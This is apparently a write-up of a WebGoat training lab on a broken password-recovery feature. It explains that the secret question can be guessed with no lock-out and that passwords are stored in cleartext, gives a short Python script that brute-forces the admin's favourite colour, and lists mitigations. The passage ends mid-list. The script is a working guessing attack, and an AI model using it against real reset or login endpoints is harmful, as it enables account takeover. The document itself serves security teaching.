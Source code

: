 ## Vulnerability:

Provided mechanism for password recovery is completely broken. It is vulnerable to guessing attack and also passwords are stored in clear on the server.

There's limited number of colors that can be chosen and there is no lock-out mechanism so the attacker can easily guess the color used by the admin.

## Exploitation:

Here's my simple script that guesses admin's favorite color:

```
#!/usr/bin/python3

# (http://docs.python-requests.org/en/latest/)
from requests import post
import sys

colors = ['green', 'blue', 'black', 'white', 'brown', 'yellow', 'orange', 'pink', 'grey', 'red', 'violet']

proxies = {
    "http": "http://127.0.0.1:8081",
}

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://webgoat.hacking-lab.com',
    'Referer': 'http://webgoat.hacking-lab.com/attack?Screen=64&menu=500'
}

data1 = {'Username': 'admin', 'SUBMIT': 'Submit'}

r = post("http://webgoat.hacking-lab.com/attack?Screen=64&menu=500", headers=headers, proxies=proxies, data=data1)

cookie = dict(JSESSIONID=r.cookies['JSESSIONID'])

for color in colors:
    data2 = {'Color': color, 'SUBMIT': 'Submit'}

    r = post("http://webgoat.hacking-lab.com/attack?Screen=64&menu=500", headers=headers, cookies=cookie, proxies=proxies, data=data2)

    if 'For security reasons, please change your password immediately' in r.text:
        print("admin's color: " + color)
        break
```

## Mitigation:

1) Do not store passwords in cleartext on the server. At a very least passwords should be hashed and salted. Do not invent your own password storage mechanism if possible. Use PBKDF2 or bcrypt for example. Follow this guideline: https://www.owasp.org/index.php/Password_Storage_Cheat_Sheet for details.

2) Basically one can use email verification or secret question(s) (or both) for password reset functionality. When secret questions are used, make sure that questions are hard to guess and unique enough to prevent googling for the answer. Consider lock-out mechanism 

